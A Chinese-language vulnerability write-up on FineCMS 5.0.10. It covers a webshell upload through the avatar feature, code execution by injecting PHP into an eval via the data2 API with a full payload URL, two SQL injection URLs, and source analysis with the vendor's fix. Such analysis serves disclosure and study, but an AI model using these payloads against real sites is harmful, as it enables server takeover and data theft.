





# Finecms 5.0.10 多重漏洞

> 原文：[http://book.iwonder.run/0day/Finecms/Finecms 5.0.10 多重漏洞.html](http://book.iwonder.run/0day/Finecms/Finecms 5.0.10 多重漏洞.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、任意文件上传

用十六进制编辑器写一个有一句话的图片 去网站注册一个账号，然后到上传头像的地方。 抓包，把 jepg 的改成 php 发包。


可以看到文件已经上传到到/uploadfile/member/用户 ID/0x0.php


### 2、任意代码执行漏洞

auth 下面的分析的时候会说到怎么获取

浏览器输入：

```
http://0-sec.org/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271 
```



这个漏洞的文件在/finecms/dayrui/controllers/Api.php 的 data2()

```
public function data2() {
        $data = array();

        // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {
            // 解析数据
            $cache = '';
            $param = $this->input->get('param');
            if (isset($param['cache']) && $param['cache']) {
                $cache = md5(dr_array2string($param));
                $data = $this->get_cache_data($cache);
            }
            if (!$data) {

                // list 数据查询
                $data = $this->template->list_tag($param);
                $data['code'] = $data['error'] ? 0 : 1;
                unset($data['sql'], $data['pages']);

                // 缓存数据
                $cache && $this->set_cache_data($cache, $data, $param['cache']);
            }
        }

        // 接收参数
        $format = $this->input->get('format');
        $function = $this->input->get('function');
        if ($function) {
            if (!function_exists($function)) {
                $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
            } else {
                $data = $function($data);
            }
        }

        // 页面输出
        if ($format == 'php') {
            print_r($data);
        } elseif ($format == 'jsonp') {
            // 自定义返回名称
            echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
        } else {
            // 自定义返回名称
            echo $this->callback_json($data);
        }
        exit;

    } 
```

可以看到开头这里验证了认证码：

```
// 安全码认证
    $auth = $this->input->get('auth', true);
    if ($auth != md5(SYS_KEY)) {
        // 授权认证码不正确
        $data = array('msg' => '授权认证码不正确', 'code' => 0);
    } else { 
```

授权码在/config/system.php


可以看到 SYS_KEY 是固定的，我们可以在 Cookies 找到，/finecms/dayrui/config/config.php



用浏览器查看 Cookies 可以看到 KEY，但是验证用 MD5，我们先把 KEY 加密就行了。



直接看到这一段，调用了 Template 对象里面的 list_tag 函数

```
if (!$data) {

    // list 数据查询
    $data = $this->template->list_tag($param);
    $data['code'] = $data['error'] ? 0 : 1;
    unset($data['sql'], $data['pages']);

    // 缓存数据
    $cache && $this->set_cache_data($cache, $data, $param['cache']);
} 
```

我们到 finecms/dayrui/libraries/Template.php 看 list_tag 函数的代码,代码有点长，我抓重点的地方,这里把 param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271 的内容分为两个数组$var、$val，这两个数组的内容分别为

```
$var=['action','name']
$val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271'] 
```

$cache=_cache_var 是返回会员的信息 重点的是下面的 @eval('$data=$cache'.$this->_get_var($_param).';');

```
foreach ($params as $t) {
            $var = substr($t, 0, strpos($t, '='));
            $val = substr($t, strpos($t, '=') + 1); 
```

再看这一段,因为 swtich 选中的是 cache，所有就不再进行下面的分析了。 $pos = strpos($param['name'], '.');这句是为下面的 substr 函数做准备。 是为了分离出的内容为

```
$_name='MEMBER'
$_param="1%27];phpinfo();$a=[%271"
// action
        switch ($system['action']) {

            case 'cache': // 系统缓存数据
                if (!isset($param['name'])) {
                    return $this->_return($system['return'], 'name 参数不存在');
                }

                $pos = strpos($param['name'], '.');
                if ($pos !== FALSE) {
                    $_name = substr($param['name'], 0, $pos);
                    $_param = substr($param['name'], $pos + 1);
                } else {
                    $_name = $param['name'];
                    $_param = NULL;
                }
                $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                if (!$cache) {
                    return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                }
                if ($_param) {
                    $data = array();
                    @eval('$data=$cache'.$this->_get_var($_param).';');
                    if (!$data) {
                        return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                    }
                } else {
                    $data = $cache;
                }

                return $this->_return($system['return'], $data, '');
                break; 
```

跟踪 get_var 函数，在这里我们先把$param 的内容假设为 a,然后执行函数里面的内容，最后返回的$string 的内容是：

```
$string=['a'] 
```

那么我们的思路就是把两边的[' ']闭合然后再放上恶意的代码。 payload 为：1'];phpinfo();$a=['1 那么返回的$string 的内容：

```
$string=['1'];phpinfo();$a=['1']
public function _get_var($param) {
        $array = explode('.', $param);
        if (!$array) {
            return '';
        }
        $string = '';
        foreach ($array as $var) {
            $string.= '[';
            if (strpos($var, '$') === 0) {
                $string.= preg_replace('/\[(.+)\]/U', '[\'\\1\']', $var);
            } elseif (preg_match('/[A-Z_]+/', $var)) {
                $string.= ''.$var.'';
            } else {
                $string.= '\''.$var.'\'';
            }
            $string.= ']';
        }

        return $string;
    } 
```

修复后的 _get_var 函数里面多了一个 dr_safe_replace 过滤函数，然后 data2()删除了。

```
public function _get_var($param) {

    $array = explode('.', $param);
    if (!$array) {
        return '';
    }
    $string = '';
    foreach ($array as $var) {
        $var = dr_safe_replace($var);
        $string.= '[';
        if (strpos($var, '$') === 0) {
            $string.= preg_replace('/\[(.+)\]/U', '[\'\\1\']', $var);
        } elseif (preg_match('/[A-Z_]+/', $var)) {
            $string.= ''.$var.'';
        } else {
            $string.= '\''.$var.'\'';
        }
        $string.= ']';
    }

    return $string;
} 
```

dr_safe_replace()

```
function dr_safe_replace($string) {
    $string = str_replace('%20', '', $string);
    $string = str_replace('%27', '', $string);
    $string = str_replace('%2527', '', $string);
    $string = str_replace('*', '', $string);
    $string = str_replace('"', '&quot;', $string);
    $string = str_replace("'", '', $string);
    $string = str_replace('"', '', $string);
    $string = str_replace(';', '', $string);
    $string = str_replace('<', '&lt;', $string);
    $string = str_replace('>', '&gt;', $string);
    $string = str_replace("{", '', $string);
    $string = str_replace('}', '', $string);
    return $string;
} 
```

### 3、任意 sql 语句执行 1

```
http://0-sec.org/index.php?c=api&m=data2&auth=582f27d140497a9d8f048ca085b111df&param=action=sql%20sql=%27select%20version();%27 
```



### 4、任意 sql 语句执行 2

```
http://0-sec.org/index.php?s=member&c=api&m=checktitle&id=1&title=1&module=news,(select%20(updatexml(1,concat(1,(select%20user()),0x7e),1)))a 
```



